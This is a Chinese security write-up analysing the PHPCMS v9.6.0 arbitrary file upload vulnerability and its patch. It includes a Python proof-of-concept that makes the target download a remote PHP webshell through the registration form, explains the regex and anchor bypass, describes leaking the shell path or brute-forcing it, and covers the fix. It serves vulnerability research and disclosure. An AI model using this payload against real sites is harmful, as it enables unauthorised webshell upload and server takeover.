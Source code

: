
# 【漏洞分析】PHPCMS v9.6.0 任意文件上传漏洞分析（已有补丁）


                                阅读量   
                                **124019**
                            
                        |
                        
                                                                                    



**<strong style="font-size: 18px;text-align: center">[![](./img/85879/t0130581a9909d7784c.png)](./img/85879/t0130581a9909d7784c.png)**</strong>

**<br>**

**Author: p0wd3r （知道创宇404安全实验室）**

**<br>**

**0x00 漏洞概述**

**漏洞简介**

前几天 phpcms v9.6 的任意文件上传的漏洞引起了安全圈热议，通过该漏洞攻击者可以在未授权的情况下任意文件上传，影响不容小觑。phpcms官方今天发布了9.6.1版本，对漏洞进行了补丁修复。

**漏洞影响**

任意文件上传

<br>

**0x01 漏洞复现**

本文从 PoC 的角度出发，逆向的还原漏洞过程，若有哪些错误的地方，还望大家多多指教。

首先我们看简化的 PoC ：



```
import re  
import requests
def poc(url):  
    u = '{}/index.php?m=member&amp;c=index&amp;a=register&amp;siteid=1'.format(url)
    data = {
        'siteid': '1',
        'modelid': '1',
        'username': 'test',
        'password': 'testxx',
        'email': 'test@test.com',
        'info[content]': '&lt;img src=http://url/shell.txt?.php#.jpg&gt;',
        'dosubmit': '1',
    }
    rep = requests.post(u, data=data)
    shell = ''
    re_result = re.findall(r'&amp;lt;img src=(.*)&amp;gt', rep.content)
    if len(re_result):
        shell = re_result[0]
        print shell
```

可以看到 PoC 是发起注册请求，对应的是phpcms/modules/member/index.php中的register函数，所以我们在那里下断点，接着使用 PoC 并开启动态调试，在获取一些信息之后，函数走到了如下位置：

[![](./img/85879/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t014a664f9628ad5536.png)

通过 PoC 不难看出我们的 payload 在$_POST['info']里，而这里对$_POST['info']进行了处理，所以我们有必要跟进。

在使用new_html_special_chars对&lt;&gt;进行编码之后，进入$member_input-&gt;get函数，该函数位于caches/caches_model/caches_data/member_input.class.php中，接下来函数走到如下位置：

[![](./img/85879/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0101f989be747d2dfc.png)

由于我们的 payload 是info[content]，所以调用的是editor函数，同样在这个文件中：

[![](./img/85879/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t014ffb22ec8368075a.png)

接下来函数执行$this-&gt;attachment-&gt;download函数进行下载，我们继续跟进，在phpcms/libs/classes/attachment.class.php中：



```
function download($field, $value,$watermark = '0',$ext = 'gif|jpg|jpeg|bmp|png', $absurl = '', $basehref = '')  
{
    global $image_d;
    $this-&gt;att_db = pc_base::load_model('attachment_model');
    $upload_url = pc_base::load_config('system','upload_url');
    $this-&gt;field = $field;
    $dir = date('Y/md/');
    $uploadpath = $upload_url.$dir;
    $uploaddir = $this-&gt;upload_root.$dir;
    $string = new_stripslashes($value);
    if(!preg_match_all("/(href|src)=(["|']?)([^ "'&gt;]+.($ext))\2/i", $string, $matches)) return $value;
    $remotefileurls = array();
    foreach($matches[3] as $matche)
    {
        if(strpos($matche, '://') === false) continue;
        dir_create($uploaddir);
        $remotefileurls[$matche] = $this-&gt;fillurl($matche, $absurl, $basehref);
    }
    unset($matches, $string);
    $remotefileurls = array_unique($remotefileurls);
    $oldpath = $newpath = array();
    foreach($remotefileurls as $k=&gt;$file) {
        if(strpos($file, '://') === false || strpos($file, $upload_url) !== false) continue;
        $filename = fileext($file);
        $file_name = basename($file);
        $filename = $this-&gt;getname($filename);
        $newfile = $uploaddir.$filename;
        $upload_func = $this-&gt;upload_func;
        if($upload_func($file, $newfile)) {
            $oldpath[] = $k;
            $GLOBALS['downloadfiles'][] = $newpath[] = $uploadpath.$filename;
            @chmod($newfile, 0777);
            $fileext = fileext($filename);
            if($watermark){
                watermark($newfile, $newfile,$this-&gt;siteid);
            }
            $filepath = $dir.$filename;
            $downloadedfile = array('filename'=&gt;$filename, 'filepath'=&gt;$filepath, 'filesize'=&gt;filesize($newfile), 'fileext'=&gt;$fileext);
            $aid = $this-&gt;add($downloadedfile);
            $this-&gt;downloadedfiles[$aid] = $filepath;
        }
    }
    return str_replace($oldpath, $newpath, $value);
}
```

函数中先对$value中的引号进行了转义，然后使用正则匹配：



```
$ext = 'gif|jpg|jpeg|bmp|png';
...
$string = new_stripslashes($value);
if(!preg_match_all("/(href|src)=(["|']?)([^ "'&gt;]+.($ext))\2/i",$string, $matches)) return $value;
```

这里正则要求输入满足src/href=url.(gif|jpg|jpeg|bmp|png)，我们的 payload （&lt;img src=http://url/shell.txt?.php#.jpg&gt;）符合这一格式（这也就是为什么后面要加.jpg的原因）。

接下来程序使用这行代码来去除 url 中的锚点：$remotefileurls[$matche] = $this-&gt;fillurl($matche, $absurl, $basehref);，处理过后$remotefileurls的内容如下：

[![](./img/85879/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01e3fd75f0607c5b3b.png)

可以看到#.jpg被删除了，正因如此，下面的$filename = fileext($file);取的的后缀变成了php，这也就是 PoC 中为什么要加#的原因：把前面为了满足正则而构造的.jpg过滤掉，使程序获得我们真正想要的php文件后缀。

我们继续执行：

[![](./img/85879/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01d828578d36b2a555.png)

程序调用copy函数，对远程的文件进行了下载，此时我们从命令行中可以看到文件已经写入了：

[![](./img/85879/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t015f16f10acd5bb7c2.png)

shell 已经写入，下面我们就来看看如何获取 shell 的路径，程序在下载之后回到了register函数中：

[![](./img/85879/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0168010ac7f0e424b6.png)

可以看到当$status &gt; 0时会执行 SQL 语句进行 INSERT 操作，具体执行的语句如下：

[![](./img/85879/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e16abdd744e2d50b.png)

也就是向v9_member_detail的content和userid两列插入数据，我们看一下该表的结构：

[![](./img/85879/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01abd6b7c4bbbb14ac.png)

因为表中并没有content列，所以产生报错，从而将插入数据中的 shell 路径返回给了我们：

[![](./img/85879/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01cbf87ec45299c5f5.png)

上面我们说过返回路径是在$status &gt; 0时才可以，下面我们来看看什么时候$status &lt;= 0，在phpcms/modules/member/classes/client.class.php中：

[![](./img/85879/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01e929fa9d2acf8378.png)

几个小于0的状态码都是因为用户名和邮箱，所以在 payload 中用户名和邮箱要尽量随机。

另外在 phpsso 没有配置好的时候$status的值为空，也同样不能得到路径。

在无法得到路径的情况下我们只能爆破了，爆破可以根据文件名生成的方法来爆破：

[![](./img/85879/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0185d488ee79b727dc.png)

仅仅是时间加上三位随机数，爆破起来还是相对容易些的。

<br>

**0x02 补丁分析**

phpcms 今天发布了9.6.1版本，针对该漏洞的具体补丁如下：

[![](./img/85879/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t012ed6bf26eccb60ee.png)

在获取文件扩展名后再对扩展名进行检测

<br>

**0x03 参考**

[https://www.seebug.org/vuldb/ssvid-92930](https://www.seebug.org/vuldb/ssvid-92930)

[[漏洞预警]PHPCMSv9前台GetShell (2017/04/09)](https://mp.weixin.qq.com/s?__biz=MzIyNTA1NzAxOA==&amp;mid=2650473914&amp;idx=1&amp;sn=9eb94f27c121709d837c3e4df07cc7f8&amp;pass_ticket=41uQwVrah%2B7ri0tXROEWobgq0%2BWtquBSape7MYFkD8RoRn8cVYczGKQcP%2BtCq2Jp)
